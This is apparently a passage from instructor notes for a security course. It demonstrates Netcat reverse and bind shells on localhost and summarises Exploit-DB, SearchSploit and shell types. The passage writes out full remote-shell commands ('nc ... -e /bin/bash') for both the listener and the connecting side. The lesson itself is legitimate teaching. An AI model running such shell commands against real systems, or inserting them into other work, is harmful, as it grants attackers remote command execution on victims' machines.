 5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window, and show students the result. 

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.

1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 ![A screenshot depicts the command and its result in the terminal.](images/netcat4.png)
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

	![A screenshot depicts the command in the terminal.](images/netcat5.png)

    - A bind shell requires the listener to be set up on the victim/target, where a reverse shell has the listener on the attacker's machine.

**Summary**

Summarize the concepts covered in the previous sections:
  - **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit database with you wherever you go.
    - Security professionals can perform detailed offline searches of hundreds of exploit scripts from Exploit-DB using the locally checked-out copy of the online repository.
    - SearchSploit comes preinstalled on Kali Linux and should be updated regularly. 
  - After determining which exploits to use, exploits can be attempted in the **Exploitation** phase.
  - Exploited access to a machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.
